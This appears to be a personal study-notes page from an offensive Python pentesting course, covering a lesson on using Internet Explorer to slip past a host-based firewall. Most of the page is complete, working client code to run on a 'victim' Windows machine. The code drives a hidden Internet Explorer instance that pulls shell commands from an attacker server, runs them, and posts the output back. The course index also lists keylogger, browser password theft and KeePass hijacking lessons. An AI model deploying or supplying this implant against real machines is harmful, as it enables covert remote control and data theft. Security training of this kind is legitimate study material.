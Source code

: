 ```yaml
---
title: Hickjack the Internet Explorer process to bypass an host-based firewall
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
  - bypassing techniques
  - host based firewall
---
```

# Hickjack the Internet Explorer process to bypass an host-based firewall

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall.md).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


For our script to bypass a host-based firewall (based on an ACL), we will hickjack the Internet Explorer process to conceal our traffick and bypass it.

## Client side

Make sure that the victim machine (a windows 10) has installed these two python libraries: pypiwin32 and pywin32.

To be run on our victim's machine.

```python
# Python For Offensive PenTest: A Complete Practical Course  - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2

from win32com.client import Dispatch
from time import sleep
import subprocess

ie = Dispatch("InternetExplorer.Application") # Create browser instance.
ie.Visible = 0 # Make it invisible [ run in background ] (1= visible)

# Paramaeters for POST
dURL = "http://192.168.0.152"  
Flags = 0
TargetFrame = 0


while True:
    ie.Navigate("http://192.168.0.152") # Navigate to our kali web server (the attacker machine) to grab the hacker commands
    while ie.ReadyState != 4: # Wait for browser to finish loading.
        sleep(1)

    command = ie.Document.body.innerHTML 
    command = command.encode() # encode the command
    if 'terminate' in command.decode():
        ie.Quit() # quit the IE and end up the process
        break
    else:
        CMD = subprocess.Popen(command.decode(), shell=True, stdin=subprocess.PIPE, stderr=subprocess.PIPE, stdout=subprocess.PIPE)
        Data = CMD.stdout.read()
        PostData = memoryview( Data ) # in order to submit or post data using COM technique , it requires to  buffer the data first using memoryview
        ie.Navigate(dURL, Flags, TargetFrame, PostData) # we post the comamnd execution result along with the post parameters which we defined eariler..

    sleep(3)

```